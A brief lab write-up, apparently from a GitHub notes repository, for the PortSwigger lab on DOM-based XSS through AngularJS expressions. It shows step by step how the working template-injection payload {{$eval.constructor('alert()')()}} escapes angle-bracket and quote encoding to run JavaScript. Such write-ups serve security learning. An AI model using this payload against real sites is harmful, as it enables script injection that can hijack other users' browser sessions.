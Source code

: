 # Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
# https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression


```bash
# After checking page source we see that <body ng-app>. you can execute JavaScript expressions within {{}}.
{{5+4}}

#When you search this you get 9 as a result.
```

```bash
# There are inhereted functions that are defined in scope in angular from prototype. $eval, $on etc.
# let scope = angular.element(document.getElementById('academyLabHeader')).scope();
#  you can normally see scope by using that code on console but you can't see it in our lab.
# constructor creates a new function object.

#This will create our function, you can use $on too.
$eval.constructor('alert()')
```
```bash
# To run the code

$eval.constructor('alert()')()

# Format it for ngapp and we will be done.

{{$eval.constructor('alert()')()}}

```
# References
# https://www.youtube.com/watch?v=QpQp2JLn6JA
# https://www.youtube.com/watch?v=P7_JPsX1ses&t=149s

